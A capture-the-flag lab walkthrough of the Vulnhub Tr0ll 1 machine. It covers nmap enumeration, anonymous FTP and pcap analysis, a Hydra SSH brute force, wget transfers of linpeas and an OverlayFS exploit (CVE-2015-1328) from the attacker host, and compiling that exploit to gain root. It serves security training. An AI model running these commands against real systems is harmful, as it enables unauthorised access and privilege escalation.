




# OSCP Vulnhub Set 1 - Tr0ll 1

Lab link: http://ccmtlab.ccmt.home.arpa:8888/user/missions/boxes?uuid=a0d13c68-a02b-4472-8323-c6d260f5046f

Target IP: 10.101.85.31

---

## Scanning and Enumeration

### Nmap

Scan all popular ports with OS, version, and script detection.

```
nmap -Pn -A 10.101.85.31
```

Key Findings:

- Port 21 (FTP): Running vsftpd 3.0.2 with Anonymous FTP login enabled. A file named lol.pcap is available and writable.

- Port 22 (SSH): Running OpenSSH 6.6.1p1 on Ubuntu.

- Port 80 (HTTP): Running Apache httpd 2.4.7. The robots.txt file reveals a disallowed directory: /secret.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/12]
└─$ nmap -Pn -A 10.101.85.31
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-28 22:15 -0400
Nmap scan report for 10.101.85.31
Host is up (0.0037s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.101.55.75
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 600
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:18:d9:ef:75:d3:1c:29:be:14:b5:2b:18:54:a9:c0 (DSA)
|   2048 ee:8c:64:87:44:39:53:8c:24:fe:9d:39:a9:ad:ea:db (RSA)
|   256 0e:66:e6:50:cf:56:3b:9c:67:8b:5f:56:ca:ae:6b:f4 (ECDSA)
|_  256 b2:8b:e2:46:5c:ef:fd:dc:72:f7:10:7e:04:5f:25:85 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry 
|_/secret
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.11 - 4.9
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT     ADDRESS
1   2.28 ms 10.101.55.1
2   2.28 ms 10.101.85.31

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.04 seconds
```

---

### FTP

Attempted to log in via FTP using the anonymous account to check accessible directories and files.

```
ftp 10.101.85.31
# Name: `anonymous`
# Password: [No Password]
```

Listed the files available in the current directory.

```
ls
```

Only one file, lol.pcap, was found.

```
ftp> ls
229 Entering Extended Passive Mode (|||11694|).
150 Here comes the directory listing.
-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap
226 Directory send OK.
```

Downloaded the file to the local Kali machine and exited the FTP session.

```
get lol.pcap
exit
```

---

### Wireshark

Opened the packet capture file in Wireshark and followed the TCP stream to analyze the network traffic.

```
Right-click on an FTP packet -> Follow -> TCP Stream
```

The stream showed an anonymous FTP login and the retrieval of a file named secret_stuff.txt.

```
220 (vsFTPd 3.0.2)

USER anonymous

331 Please specify the password.

PASS password

230 Login successful.

SYST

215 UNIX Type: L8

PORT 10,0,0,12,173,198

200 PORT command successful. Consider using PASV.

LIST

150 Here comes the directory listing.
226 Directory send OK.

TYPE I

200 Switching to Binary mode.

PORT 10,0,0,12,202,172

200 PORT command successful. Consider using PASV.

RETR secret_stuff.txt

150 Opening BINARY mode data connection for secret_stuff.txt (147 bytes).
226 Transfer complete.

TYPE A

200 Switching to ASCII mode.

PORT 10,0,0,12,172,74

200 PORT command successful. Consider using PASV.

LIST

150 Here comes the directory listing.
226 Directory send OK.

QUIT

221 Goodbye.
```

Inspected packet 40 to view the contents of the transmitted data.

```
Select packet 40 -> View Line-based text data
```

The payload contained a message suggesting a potential directory named sup3rs3cr3tdirlol.

```
Line-based text data (3 lines)
    Well, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P\n
    \n
    Sucks, you were so close... gotta TRY HARDER!\n
```

---

### Content Discovery

Navigated to the suspected directory using a web browser.

```
http://10.101.85.31/sup3rs3cr3tdirlol/
```

A file named roflmao was found.



Downloaded and opened the file to inspect its content.

```
cat Downloads/roflmao 
```

The content revealed a string pointing to a new location at 0x0856BF.

```
┌──(kali㉿kali)-[~]
└─$ cat Downloads/roflmao 

[...snip...]

Find address 0x0856BF to proceed(����D)���hL���������zR|߃�[^_]��

[...snip...]
```

Navigated to the newly discovered address in the browser.

```
http://10.101.85.31/0x0856BF/
```

Two subdirectories were found.



Accessed the which_one_lol.txt file inside the good_luck directory.



The file contained a list of potential usernames.

```
maleus
ps-aux
felux
Eagle11
genphlux < -- Definitely not this one
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```

Accessed the Pass.txt file inside the this_folder_contains_the_password directory.



The file contained a string that could be a password or a hint.

```
Good_job_:)
```

---

## Exploitation

### Brute Force

Created a wordlist containing the discovered usernames.

```
nano users.txt
```

Saved the following usernames to the file.

```
maleus
ps-aux
felux
Eagle11
genphlux
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```

Created a password wordlist with potential candidates.

```
nano pass.txt
```

Saved the potential passwords to the file.

```
Good_job_:)
maleus
ps-aux
felux
Eagle11
genphlux
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```

Attempted an initial brute-force attack against SSH using the password list, which failed. Since the directory this_folder_contains_the_password contained a file named Pass.txt, suspected that the filename "Pass.txt" itself could be the actual password and tested it using Hydra.

```
hydra -L users.txt -p Pass.txt 10.101.85.31 ssh -F
```

Successfully identified valid SSH credentials.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/12]
└─$ hydra -L users.txt -p Pass.txt 10.101.85.31 ssh -F

[...snip...]

[22][ssh] host: 10.101.85.31   login: overflow   password: Pass.txt

[...snip...]
```

---

## Privilege Escalation

### SSH

Connected to the target machine via SSH using the discovered credentials.

```
ssh overflow@10.101.85.31 
# password: `Pass.txt`
```

---

### Spawn Shell

Upgraded the shell to a fully interactive TTY session using Python.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

### Linpeas

Downloaded the Linpeas script on the Kali machine to enumerate privilege escalation vectors.

```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

Started a local Python HTTP server on the Kali machine to transfer the script.

```
python3 -m http.server 8000
```

Navigated to the /tmp directory on the target machine and downloaded the script from the Kali machine.

```
cd /tmp
wget http://10.101.55.195:8000/linpeas.sh
```

Granted execution permissions to the script and executed it.

```
chmod +x linpeas.sh
./linpeas.sh
```

The scan output highlighted a potential privilege escalation vulnerability via OverlayFS (CVE-2015-1328).

```
overflow@troll:/tmp$ chmod +x linpeas.sh
overflow@troll:/tmp$ ./linpeas.sh

[...snip...]

CVE: CVE-2015-1328 | Name: overlayfs | Match data: pkg=linux-kernel,ver>=3.13.0,ver<=3.19.0 | Tags: ubuntu=(12.04|14.04){kernel:3.13.0-(2|3|4|5)*-generic},ubuntu=(14.10|15.04){kernel:3.(13|16).0-*-generic} | Rank: 1 

[...snip...]
```

---

### OverlayFS 3.13 Exploit

Returned to the Kali machine and searched for an OverlayFS exploit module.

```
searchsploit overlayfs 3.13
```

The search results identified exploit ID 37292 as a viable option.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/12]
└─$ searchsploit overlayfs 3.13 
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local P | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local P | linux/local/37293.txt
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Copied the exploit file to the current working directory on the Kali machine.

```
searchsploit -m linux/local/37292.c 
```

Returned to the target shell and downloaded the exploit file from the Kali machine.

```
wget http://10.101.55.195:8000/37292.c
```

Compiled and executed the exploit file.

```
gcc 37292.c -o exploit
chmod +x exploit
./exploit
```

The exploit executed successfully, granting root privileges.

```
overflow@troll:/tmp$ gcc 37292.c -o exploit
overflow@troll:/tmp$ chmod +x exploit
overflow@troll:/tmp$ ./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1002(overflow)
```